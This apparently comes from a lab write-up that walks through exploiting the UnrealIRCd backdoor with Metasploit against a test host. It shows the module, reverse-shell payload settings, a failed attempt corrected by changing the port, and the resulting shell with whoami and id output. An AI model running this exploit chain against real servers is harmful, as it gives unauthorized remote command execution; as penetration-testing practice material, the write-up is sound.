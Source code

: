 ## Missed Attack 2: UnrealIRCd

In the in depth nmap we saw that the port 6697 was open with service **irc** and version **UnrealIRCd**, so we perform a search on metasploit:

```bash
search unrealircd
```

And there is only one exploit (`unix/irc/unreal_ircd_3281_backdoor`), so we will use it.

First we look at the payloads and try different ones, I will start with the 11 (`cmd/unix/reverse_ruby_ssl`) and configure its options, then we will execute the exploit.

```bash
set RHOSTS 172.28.128.3
SET LHOST 192.168.0.104
exploit
```

```bash
[*] Started reverse TCP double handler on 192.168.0.104:4444 
[-] 172.28.128.3:6667 - Exploit failed [unreachable]: Rex::ConnectionTimeout The connection with (172.28.128.3:6667) timed out.
[*] Exploit completed, but no session was created.
```

This error is because the port 6667 is closed, if we look at the nmap the open port is 6697, so we will change it and try again.

```bash
set RPORT 6697
exploit
```

```bash
[*] Started reverse TCP double handler on 192.168.0.104:4444 
[*] 172.28.128.3:6697 - Connected to 172.28.128.3:6697...
    :irc.TestIRC.net NOTICE AUTH :*** Looking up your hostname...
    :irc.TestIRC.net NOTICE AUTH :*** Found your hostname (cached)
[*] 172.28.128.3:6697 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo vzTyVdtbQstqwlSE;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "vzTyVdtbQstqwlSE\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 13 opened (192.168.0.104:4444 -> 192.168.0.104:43234) at 2023-11-19 23:50:18 +0200

whoami
boba_fett
id
uid=1121(boba_fett) gid=100(users) groups=100(users),999(docker)
```
